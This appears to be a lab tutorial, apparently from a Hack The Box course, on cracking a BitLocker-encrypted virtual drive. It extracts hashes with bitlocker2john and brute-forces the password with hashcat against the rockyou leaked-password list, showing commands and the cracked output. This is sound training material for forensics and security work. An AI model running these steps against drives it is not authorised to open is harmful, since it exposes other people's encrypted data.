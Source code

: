 ## Cracking BitLocker Encrypted Drives

BitLocker
```
https://docs.microsoft.com/en-us/windows/security/information-protection/bitlocker/bitlocker-device-encryption-overview-windows-10
```
is an encryption program for entire partitions and external drives. Microsoft developed it for the Windows operating system. It has been available since Windows Vista and uses the AES encryption algorithm with 128-bit or 256-bit length. If the password or PIN for BitLocker is forgotten, we can use the recovery key to decrypt the partition or drive. The recovery key is a 48-digit string of numbers generated during BitLocker setup that also can be brute-forced.

Virtual drives are often created in which personal information, notes, and documents are stored on the computer or laptop provided by the company to prevent access to this information by third parties. Again, we can use a script called bitlocker2john to extract the hash we need to crack. Four different hashes
```
https://openwall.info/wiki/john/OpenCL-BitLocker
```

will be extracted, which can be used with different Hashcat hash modes. For our example, we will work with the first one, which refers to the BitLocker password.

## Using bitlocker2john
```
Suljov@htb[/htb]$ bitlocker2john -i Backup.vhd > backup.hashes
Suljov@htb[/htb]$ grep "bitlocker\$0" backup.hashes > backup.hash
Suljov@htb[/htb]$ cat backup.hash

$bitlocker$0$16$02b329c0453b9273f2fc1b927443b5fe$1048576$12$00b0a67f961dd80103000000$60$d59f37e...SNIP...70696f7eab6b
```

Both John and Hashcat can be used for this purpose. This example will look at the procedure with Hashcat. The Hashcat mode for cracking BitLocker hashes is -m 22100. So we provide Hashcat with the file with the one hash, specify our password list, and specify the hash mode. Since this is robust encryption (AES), cracking can take some time, depending on the hardware used. Additionally, we can specify the filename in which the result should be stored.


## Using hashcat to Crack backup hash
```
Suljov@htb[/htb]$ hashcat -m 22100 backup.hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt -o backup.cracked

hashcat (v6.1.1) starting...

<SNIP>

$bitlocker$0$16$02b329c0453b9273f2fc1b927443b5fe$1048576$12$00b0a67f961dd80103000000$60$d59f37e70696f7eab6b8f95ae93bd53f3f7067d5e33c0394b3d8e2d1fdb885cb86c1b978f6cc12ed26de0889cd2196b0510bbcd2a8c89187ba8ec54f:1234qwer
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: BitLocker
Hash.Target......: $bitlocker$0$16$02b329c0453b9273f2fc1b927443b5fe$10...8ec54f
Time.Started.....: Wed Feb  9 11:46:40 2022 (1 min, 42 secs)
Time.Estimated...: Wed Feb  9 11:48:22 2022 (0 secs)
Guess.Base.......: File (/opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       28 H/s (8.79ms) @ Accel:32 Loops:4096 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2880/6163 (46.73%)
```